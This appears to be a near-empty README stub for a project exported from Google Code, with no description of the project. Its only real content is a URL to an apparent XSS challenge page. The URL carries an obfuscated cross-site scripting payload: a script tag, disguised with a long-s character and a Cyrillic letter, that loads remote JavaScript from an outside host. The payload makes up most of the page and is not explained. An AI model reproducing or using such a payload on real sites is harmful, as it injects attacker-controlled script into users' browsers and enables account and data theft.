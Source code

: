 # my-project-namess-2s
Automatically exported from code.google.com/p/my-project-namess-2s
http://brutelogic.com.br/chall/findbug.php?name=<ſcript%20ſrc="нttp:///jobspotting.pl/x"></ſcript>
